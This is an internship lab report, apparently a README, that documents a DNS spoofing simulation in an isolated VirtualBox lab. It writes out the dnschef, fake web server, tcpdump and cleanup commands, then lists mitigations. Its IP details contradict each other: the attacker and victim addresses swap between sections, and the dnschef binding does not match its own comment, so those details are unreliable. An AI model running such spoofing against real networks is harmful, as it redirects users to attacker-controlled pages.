# Task-6 — DNS Spoofing Attack Simulation (Brief)

**Internship:** Broskieshub.com
**Objective :** I set up an isolated VirtualBox lab (`labnet`) and simulated a DNS spoofing attack to demonstrate how DNS responses can be manipulated to redirect a victim to an attacker‑controlled page.

---

## Lab setup
- Attacker (Kali): `192.168.56.20`  
- Victim (Win7): `192.168.56.10`  
- Network: VirtualBox **Internal Network** `labnet` (isolated from public internet)









> Note: I used only command‑line tools available on the VMs. No GUI interfaces or additional installs were used during testing.



---

## Commands I ran (exact, in order)

**On Kali (attacker) — host fake site**
```bash
sudo mkdir -p /var/www/html/fake_example
echo "<html><body><h1>example.com — Internship Task 6 (Fake Page)</h1><p>This site is a lab demonstration used for DNS spoofing simulation.</p></body></html>" | sudo tee /var/www/html/fake_example/index.html
cd /var/www/html/fake_example
sudo python3 -m http.server 80
````





**On Kali — start DNSChef (CLI) to spoof example.com**

```bash
# bind to all interfaces and spoof example.com to 192.168.56.20
sudo dnschef --interface 192.168.56.10 --fakeip 192.168.56.20 --fakedomains example.com
```



**On Kali — capture DNS traffic for evidence**

```bash
sudo tcpdump -i eth0 -n udp port 53
```



**On Windows 7 (victim) — flush DNS & test**

```cmd
ipconfig /flushdns
```



---

## What happened
* From the victim (`192.168.56.20`) I ran `nslookup example.com` and received the spoofed A record `192.168.56.10` (attacker).
* Visiting `http://example.com` on the victim loaded the attacker‑hosted fake page, confirming successful DNS spoofing in the isolated lab.



---

## Short reflection 
> Performing this controlled lab helped me understand how DNS resolution can be abused to transparently redirect users to malicious sites. I observed that a single forged DNS reply can make a victim visit an attacker page, and that packet capture and DNS logging are essential evidence for analysis. Mitigations I noted include DNSSEC, encrypted DNS (DoH/DoT), and strict TLS certificate validation.

---

## Ethics & cleanup

* All testing was performed only on an isolated internal VirtualBox network (`labnet`).
* After testing I stopped the HTTP server and dnschef and removed the test content:

```bash
# on Kali
sudo pkill -f python3
sudo pkill dnschef || true
sudo rm -rf /var/www/html/fake_example
```
---
End of report.